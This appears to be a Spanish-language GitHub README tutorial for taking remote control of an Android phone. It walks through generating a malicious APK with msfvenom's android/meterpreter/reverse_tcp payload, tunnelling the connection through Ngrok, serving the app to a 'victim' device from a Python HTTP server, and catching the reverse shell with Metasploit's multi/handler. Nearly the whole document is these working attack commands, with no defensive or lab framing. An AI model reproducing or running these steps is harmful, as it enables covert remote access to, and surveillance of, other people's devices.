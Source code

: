 # Video: https://youtu.be/YaxFxesD0uE


# Previamente asegurate de:
1. Descarga Ngrok [Ngrok] (https://ngrok.com/download) ![](https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/NgrokDownload.png)
2. instala desde la terminal: $ sudo tar xvzf ~/Downloads/ngrok-v3-stable-linux-amd64.tgz -C /usr/local/bin (ojo con el nombre de la carpeta podria ser "Descargas" o "Downloads" segun el idioma de configuracion de tu kali)
3. Abre una cuenta gratuita en Ngrok y despues vincula tu token desde la pagina principal de Ngrok dentro de tu perfil ![](https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/Ngrokvinculacion.png)
4. Tener actualizado tu sistema operativo: $ sudo apt update && apt upgrade -y.
5. Descarga e instala Metasploit-Framework desde la terminal : $ sudo apt install metasploit-framework



# Tutorial
1. Abrimos una terminal como usuraio Root: $ sudo su
2. Arrancamos Metasploit-Framework: $ msfconsole ![](https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/msfconsole.png)
3. Desde una segunda terminal montamos un servidor tcp con Ngrok por el puerto 4646 por el cual estaremos en escucha: $ ngrok tcp 4646
4. En nuestra sesion con Metasploit creamos el payload con msfvenom para generar una conexion tcp con el siguiente comando : $  msfvenom -p android/meterpreter/reverse_tcp LHOST=(ojo porque el host nos lo proporcionara Ngrok en el apartado fowardign) al igual el LPORT=(pon atencion a laimagen proporcionada) -o msf.apk
5. Una vez hecho todo esto la aplicacion estara creada y lista para ser descargada desde nuestro equipo "victima".
6. Crearemos un servidor con python para que nuestra aplicacion sea descargada desde el equipo "atacante" al equipo "victima" : $ python3 -m http.server [puerto] ![](https://github.com/ROBTRT421/apk.android.meterpreter.msfvenom/blob/main/ServidorPython.png)



# Aplicacion
Una vez que la apliacion fue creada eh instalada con exito en el equipo "victima" pasaremos a ponernos en escucha en una nueva ventana de metasploit 
1. Iniciamos Metasploit : $ msfconsole
2. Configuramos un Listener : $ use exploit/multi/handler
3. Seteamos el mismo payload de la app maliciosa : $ set payload/meterpreter/reverse_tcp
4. Seteamos el LHOST pero con todas las conexiones entrantes (all incoming conections) : $ set LHOST 0.0.0.0
5. Seteamos el puerto de escucha que habiamos configurado antes : $ set LPORT 4646
6. Arrancamos el payload : $ exploit




